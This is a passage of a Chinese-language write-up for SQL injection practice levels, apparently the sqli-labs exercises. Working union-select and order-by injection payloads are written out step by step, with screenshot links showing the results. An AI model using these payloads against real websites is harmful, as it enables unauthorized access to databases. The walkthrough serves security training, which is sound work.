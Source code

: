 经过尝试，服务器返回两个字段

![image-20220921102015601](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921102015601.png)

尝试查询注入

```a' union select 1,2 limit 0,1 #
a' union select 1,2 limit 0,1 #
```

![image-20220921102131504](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921102131504.png)

开始注入

```
a' union select 1,database() limit 0,1 #
```



![image-20220921102201977](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921102201977.png)

## 第十二关

尝试使用`"`进行试探，发现password使用"")进行包裹

![image-20220921102816128](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921102816128.png)

尝试使用下面的语句进行试探，发现没有回显信息，说明下面的语句合法

```
"")and 1=1 limit 0,1--+
```

![image-20220921102716076](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921102716076.png)

尝试使用order by获取字段数量，判断为2，3报错

```
sdf"'') order by 3 limit 0,1#
```

![image-20220921104117246](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921104117246.png)

使用查询注入，成功

```sh
sdf"'') union select 1,database() limit 0,1#
```

![image-20220921104249130](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921104249130.png)

## 第十三关

尝试`'`

![image-20220921104437306](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921104437306.png)
